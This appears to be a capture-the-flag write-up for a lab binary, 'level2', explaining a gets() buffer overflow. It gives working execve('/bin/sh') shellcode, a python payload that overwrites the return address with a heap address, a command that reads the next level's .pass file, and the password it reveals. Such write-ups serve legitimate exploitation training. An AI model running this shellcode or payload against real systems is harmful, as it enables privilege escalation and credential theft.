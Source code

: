 opening the program in a decompiler we can see it use gets which is vulnerable to a buffer overflow attack, we can use this to overwrite the return address of the function to the address of a function we put in memory, using the strdup the program is calling. (see source.c)
so basically, we will put in memory a shellcode that call execve("/bin/sh"), then we will overwrite the return address to the address of the shellcode.
from https://dhavalkapil.com/blogs/Shellcode-Injection:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`
using a decompiler, we can see the buffer is at base stack - 0x50 (80 in decimal), our shellcode 25, so we need to add 55 char to the shellcode to fill the buffer, then we need to overwrite the return address with the address of the shellcode.
the program checks is the return starts with 0xb, so we can't put it in the stack. but the program conveniently calls strdup, which allocates memory on the heap, so we can put the shellcode in the heap, then overwrite the return address with the address of the shellcode.

`python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' + 'a'*55 + '\x08\xa0\x04\x08'" > /tmp/a`
`cat /tmp/a - | ./level2`
and boom we can launch command as level3.
`cat /home/user/level3/.pass` -> `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`
